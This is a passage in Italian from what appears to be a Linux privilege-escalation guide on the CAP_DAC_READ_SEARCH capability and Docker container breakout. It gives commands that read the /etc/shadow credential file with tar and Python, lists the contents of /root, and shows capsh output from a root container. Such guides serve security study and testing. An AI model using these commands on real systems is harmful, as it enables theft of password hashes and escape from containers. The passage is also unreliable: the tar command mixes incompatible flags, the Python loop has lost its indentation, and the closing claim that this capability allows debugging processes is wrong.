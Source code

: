 Un altro esempio di questa tecnica può essere trovato in [https://www.cyberark.com/resources/threat-research-blog/how-i-hacked-play-with-docker-and-remotely-ran-code-on-the-host](https://www.cyberark.com/resources/threat-research-blog/how-i-hacked-play-with-docker-and-remotely-ran-code-on-the-host)

## CAP\_DAC\_READ\_SEARCH

[**CAP\_DAC\_READ\_SEARCH**](https://man7.org/linux/man-pages/man7/capabilities.7.html) permette a un processo di **bypassare le autorizzazioni per la lettura dei file e per la lettura ed esecuzione delle directory**. Il suo utilizzo principale è per la ricerca o la lettura dei file. Tuttavia, consente anche a un processo di utilizzare la funzione `open_by_handle_at(2)`, che può accedere a qualsiasi file, incluso quelli al di fuori dello spazio dei nomi di montaggio del processo. L'handle utilizzato in `open_by_handle_at(2)` dovrebbe essere un identificatore non trasparente ottenuto tramite `name_to_handle_at(2)`, ma può includere informazioni sensibili come i numeri di inode che sono vulnerabili a manomissioni. Il potenziale di sfruttamento di questa capacità, in particolare nel contesto dei container Docker, è stato dimostrato da Sebastian Krahmer con l'exploit shocker, come analizzato [qui](https://medium.com/@fun_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3).
**Ciò significa che è possibile bypassare i controlli di autorizzazione per la lettura dei file e i controlli di autorizzazione per la lettura/esecuzione delle directory.**

**Esempio con un binario**

Il binario sarà in grado di leggere qualsiasi file. Quindi, se un file come tar ha questa capacità, sarà in grado di leggere il file shadow:
```bash
cd /etc
tar -czf /tmp/shadow.tar.gz shadow #Compress show file in /tmp
cd /tmp
tar -cxf shadow.tar.gz
```
**Esempio con binary2**

In questo caso supponiamo che il binario **`python`** abbia questa capacità. Per elencare i file di root è possibile eseguire il seguente comando:
```python
import os
for r, d, f in os.walk('/root'):
for filename in f:
print(filename)
```
E per leggere un file potresti fare:
```python
print(open("/etc/shadow", "r").read())
```
**Esempio in ambiente (Docker breakout)**

Puoi verificare le capacità abilitate all'interno del container Docker utilizzando:
```
capsh --print
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+ep
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
secure-noroot: no (unlocked)
secure-no-suid-fixup: no (unlocked)
secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)
```
All'interno dell'output precedente è possibile vedere che la capacità **DAC\_READ\_SEARCH** è abilitata. Di conseguenza, il contenitore può **eseguire il debug dei processi**.
